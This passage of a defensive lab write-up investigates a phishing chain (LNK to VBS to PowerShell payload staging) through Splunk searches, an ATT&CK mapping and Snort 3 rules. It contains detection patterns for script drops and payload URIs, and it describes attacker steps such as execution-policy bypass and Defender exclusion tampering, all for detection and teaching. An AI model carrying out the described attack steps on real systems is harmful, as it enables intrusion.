| rex field=Message "ParentImage:\s+(?<ParentImage>[^\r\n]+)"
| rex field=Message "TargetFilename:\s+(?<TargetFilename>[^\r\n]+)"
| search TargetFilename="*.vbs*" OR TargetFilename="*.ps1*" OR TargetFilename="*.bat*" OR TargetFilename="*.js*" OR TargetFilename="*.wsf*" OR TargetFilename="*.hta*" OR TargetFilename="*.cmd*" OR TargetFilename="*.jse*" OR TargetFilename="*.vbe*" OR TargetFilename="*.lnk*" OR TargetFilename="*.exe*"
| table TimeCreated Image ParentImage TargetFilename
| sort TimeCreated
```

I use the broad extension filter to surface script and executable drops, then narrow the results to suspicious parent processes, user-writable paths, or timestamps around a known execution.

<table>
  <tr>
    <td align="center"><a href="./images/splunk%20(1).png"></a><br><strong>Splunk investigation 1</strong></td>
    <td align="center"><a href="./images/splunk%20(2).png"></a><br><strong>Splunk investigation 2</strong></td>
  </tr>
</table>

### Event ID 1 — Inspect the initial execution window

This two-minute search covers the anchor at 4:51:45 PM ± one minute.

```splunk
index=main sourcetype="ReportLNK" Id=1 earliest="10/16/2026:16:50:45" latest="10/16/2026:16:52:45"
| rex field=Message "ParentImage:\s+(?<ParentImage>[^\r\n]+)"
| rex field=Message "Image:\s+(?<Image>[^\r\n]+)"
| rex field=Message "CommandLine:\s+(?<CommandLine>[^\r\n]+)"
| rex field=Message "User:\s+(?<User>[^\r\n]+)"
| table TimeCreated ParentImage Image CommandLine User
| sort TimeCreated
```

### Event ID 1 — Trace shell and PowerShell lineage

```splunk
index=main sourcetype="ReportLNK" Id=1
| rex field=Message "ParentImage:\s+(?<ParentImage>[^\r\n]+)"
| rex field=Message "Image:\s+(?<Image>[^\r\n]+)"
| rex field=Message "CommandLine:\s+(?<CommandLine>[^\r\n]+)"
| rex field=Message "User:\s+(?<User>[^\r\n]+)"
| search ParentImage="*cmd.exe*" OR ParentImage="*powershell.exe*" OR Image="*cmd.exe*" OR Image="*powershell.exe*"
| table TimeCreated ParentImage Image CommandLine User
| sort TimeCreated
```

This is a lineage pivot, not a complete hunt for script interpreters. For this chain I also inspect `wscript.exe` and `cscript.exe` parents and children; otherwise, I risk staring at the second act and missing the shortcut opening.

<table>
  <tr>
    <td align="center"><a href="./images/splunk%20(3).png"></a><br><strong>Splunk investigation 3</strong></td>
    <td align="center"><a href="./images/splunk%20(4).png"></a><br><strong>Splunk investigation 4</strong></td>
  </tr>
</table>

### Event ID 3 — Correlate outbound connections to the lab listener

The 4:59:09 PM anchor window spans 4:58:09–5:00:09 PM.

```splunk
index=main sourcetype="ReportLNK" Id=3 earliest="10/16/2026:16:58:09" latest="10/16/2026:17:00:09"
| rex field=Message "Image:\s+(?<Image>[^\r\n]+)"
| rex field=Message "User:\s+(?<User>[^\r\n]+)"
| rex field=Message "Protocol:\s+(?<Protocol>[^\r\n]+)"
| rex field=Message "SourceIp:\s+(?<SourceIp>[^\r\n]+)"
| rex field=Message "SourcePort:\s+(?<SourcePort>[^\r\n]+)"
| rex field=Message "DestinationIp:\s+(?<DestinationIp>[^\r\n]+)"
| rex field=Message "DestinationPort:\s+(?<DestinationPort>[^\r\n]+)"
| search DestinationIp="192.168.56.102"
| table TimeCreated Image User Protocol SourceIp SourcePort DestinationIp DestinationPort
| sort TimeCreated
```

The process image and destination port distinguish PowerShell's HTTP staging connections on **8080** from the payload executables' subsequent connections on **4444**.

<table>
  <tr>
    <td align="center"><a href="./images/splunk%20(5).png"></a><br><strong>Splunk investigation 5</strong></td>
    <td align="center"><a href="./images/splunk%20(6).png"></a><br><strong>Splunk investigation 6</strong></td>
  </tr>
</table>

### Event ID 11 — Narrow file creation to the retrieval window

```splunk
index=main sourcetype="ReportLNK" Id=11 earliest="10/16/2026:16:58:09" latest="10/16/2026:17:00:09"
| rex field=Message "Image:\s+(?<Image>[^\r\n]+)"
| rex field=Message "TargetFilename:\s+(?<TargetFilename>[^\r\n]+)"
| table TimeCreated Image TargetFilename
| sort TimeCreated
```

I compare these rows with the Event ID 3 results and Event ID 1 process launches. That three-way pivot helps answer which process wrote a file, what network activity happened nearby, and whether the file subsequently ran.

<table>
  <tr>
    <td align="center"><a href="./images/splunk%20(7).png"></a><br><strong>Splunk investigation 7</strong></td>
    <td align="center"><a href="./images/splunk%20(8).png"></a><br><strong>Splunk investigation 8</strong></td>
  </tr>
</table>

<details>
<summary><strong>Quick check 3:</strong> The PCAP shows <code>/payload.exe</code>, while Sysmon records <code>payload_92141.exe</code>. Are these the same indicator?</summary>

**A.** Yes; normalize away the underscore and assume the URI was `/payload_92141.exe`.  
**B.** No; one is a URI observed in the PCAP and the other is a local filename. Correlate them, but keep the exact strings distinct.  
**C.** Neither can be used for detection.

**Answer: B.** The available evidence supports a relationship in the transfer chain, not a literal URI-to-filename equality. I write detections for the observed URI and the URI pattern separately.
</details>

## MITRE ATT&CK mapping

I map the behaviors supported by the evidence. Technique mapping describes observed activity; it is not a claim about actor identity or attribution.

| Tactic | Technique | Case behavior |
|---|---|---|
| **Initial Access** | [T1566.001 — Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001/) | A compliance-themed email delivered a ZIP containing the script and deceptive shortcut. |
| **Execution** | [T1204.002 — User Execution: Malicious File](https://attack.mitre.org/techniques/T1204/002/) | The PDF-themed LNK relies on the recipient opening a malicious file. |
| **Execution** | [T1059.005 — Command and Scripting Interpreter: Visual Basic](https://attack.mitre.org/techniques/T1059/005/) | Windows Script Host runs `main.vbs` and later-stage VBS scripts. |
| **Execution** | [T1059.001 — Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/) | PowerShell runs staged `.ps1` files, including with `-ExecutionPolicy Bypass`. |
| **Defense Evasion** | [T1562.001 — Impair Defenses: Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001/) | The case narrative describes Defender exclusion manipulation and Sysmon records a later `excl_*.ps1` script. I would confirm the actual setting change and its outcome using Defender/registry telemetry before asserting success. |
| **Command and Control** | [T1105 — Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/) | PowerShell retrieves executable payloads from the lab listener over HTTP. |
| **Discovery** | [T1033 — System Owner/User Discovery](https://attack.mitre.org/techniques/T1033/) | `whoami` queries the current user context. |
| **Discovery** | [T1082 — System Information Discovery](https://attack.mitre.org/techniques/T1082/) | `hostname` queries the local system name. |

## Defensive engineering: Snort 3

I wrote the primary rule for the requested **`/payload_` URI pattern**. The destination port is **TCP/8080**, because that is the HTTP staging port identified in the case—not port 80. The PCAP's exact request is `/payload.exe`, which does not contain the underscore required by the primary rule. I include a second rule for that observed literal path so the detection set covers both pieces of evidence.

These use Snort 3's `drop` action for an **inline IPS**. A passive IDS should use `alert` instead; a passive sensor cannot block packets.

```snort
drop tcp any any -> 192.168.56.102 8080 (
    msg:"MALWARE Operation BlindSight - numbered payload URI";
    flow:to_server,established;
    http_method;
    content:"GET";
    http_uri;
    content:"/payload_";
    classtype:trojan-activity;
    sid:1000001;
    rev:1;
)

drop tcp any any -> 192.168.56.102 8080 (
    msg:"MALWARE Operation BlindSight - observed payload.exe URI";
    flow:to_server,established;
    http_method;
    content:"GET";
    http_uri;
    content:"/payload.exe";
    classtype:trojan-activity;
    sid:1000002;
    rev:1;
)
```

### Reading the rule without needing a decoder ring

- **Action — `drop`:** Snort blocks matching traffic when operating inline. I use `alert` for passive monitoring and validate enforcement behavior in an isolated test first.
- **Protocol — `tcp`:** The rule inspects TCP traffic.
- **Header — `any any -> 192.168.56.102 8080`:** Any source address and source port, traveling to the lab listener IP and HTTP port. The arrow defines traffic direction; it does not mean “match either direction.”
- **Options parentheses:** Everything after the header and inside the parentheses is a rule option.
- **`flow:to_server,established;`:** Match a session established toward the server. The comma separates values in one option; it is not an option terminator.
- **`http_method; content:"GET";`:** Select the decoded HTTP method buffer, then match `GET` in that buffer.
- **`http_uri; content:"/payload_";`:** Select the normalized HTTP URI buffer, then match the numbered-payload prefix. The second rule substitutes the exact observed `/payload.exe` path.
- **`classtype:trojan-activity;`:** Classifies the event for alerting and reporting.
- **`sid:1000001;`:** Identifies a locally maintained rule. Local SIDs conventionally use values at or above 1,000,000; check for collisions in the deployment's rule set.
- **`rev:1;`:** Tracks revisions to this signature.
- **Semicolons:** Each option ends with a semicolon. The final option also ends with one; the closing `)` ends the rule.

The HTTP inspector must be enabled and configured for the traffic for the `http_method` and `http_uri` buffers to work as intended. I validate syntax and policy with the target Snort 3 configuration before enforcement. If this sensor is for a different network, I replace the lab IP and port, assign unique SIDs, and test both matching and non-matching requests.

**Detection limitation:** `/payload_` is a path fragment, not a complete behavioral model. It will not match `/payload.exe`, and neither URI rule will see encrypted HTTPS content without appropriate inspection. I pair network signatures with host-side detections for suspicious interpreter lineage, script drops in user-writable directories, execution-policy bypasses, and newly written PE files.

## Repository artifacts and reproducibility

I keep the original evidence artifacts at the repository root and link them directly. The archive's actual repository name is `Report_2026.zip`.

| Artifact | Purpose in this case |
|---|---|
| [`phish.eml`](./phish.eml) | Original phishing-message artifact, transport headers, authentication results, and attached archive. |
| [`Report_2026.zip`](./Report_2026.zip) | Delivered ZIP containing `main.vbs` and the disguised LNK. Inspect contents safely; do not execute. |
| [`Report_LNK_capture.pcap`](./Report_LNK_capture.pcap) | Packet capture used for endpoint analysis and HTTP stream reconstruction. |
| [`Sysmon_Clean_Export.csv`](./Sysmon_Clean_Export.csv) | Host telemetry used for process lineage, network connections, file creation, and event inventory. |
| [`detect_lnk_vbs_payload.yar`](./detect_lnk_vbs_payload.yar) | Custom YARA rule for the LNK/WScript/VBS indicators. |
| [`images/`](./images/) | All 22 screenshots documenting email, archive, static, network, session, and Splunk evidence. |

For a safe replay of the *analysis*, I start by preserving hashes and copies of the supplied evidence, inspect the `.eml` headers and archive listing without launching extracted files, load the CSV into the agreed Splunk index/sourcetype, and open the PCAP in Wireshark for endpoint and stream review. I then run the searches above using the correct dataset timestamps and validate each detection against both matching and benign traffic. I do not provide a “run the payload” step; the investigation does not require executing it again.

## Analyst takeaways

1. **Behavior outlasts the disguise.** Icons and filenames are cheap theater. Process lineage, file creation, and network behavior leave a more durable record.
2. **Time is evidence, but clocks need context.** A ±1-minute window creates a useful correlation boundary only when I know which timestamp, timezone, and ingest-time behavior I am using.
3. **One event is a clue; several linked events are a story.** I connect WScript to PowerShell, PowerShell to file writes and the listener, the PE to its follow-on connection, and `cmd.exe` to discovery.
4. **Detection must match observed traffic.** A `/payload_` URI rule does not match `/payload.exe`. I wrote coverage for both and kept filenames distinct from request paths.
5. **Preserve contradictions.** The hostname discrepancy and differences between timestamps are investigation tasks, not invitations to tidy the report by guessing.
6. **Pair network and host detections.** URI signatures help at the HTTP boundary; process and file telemetry can still reveal staging when the URI changes or network inspection is unavailable.

> I did not solve this case because the lure was obvious. I solved it because the evidence agreed across layers—and where it did not agree, I left the question visible. That is the difference between a persuasive story and a defensible investigation.
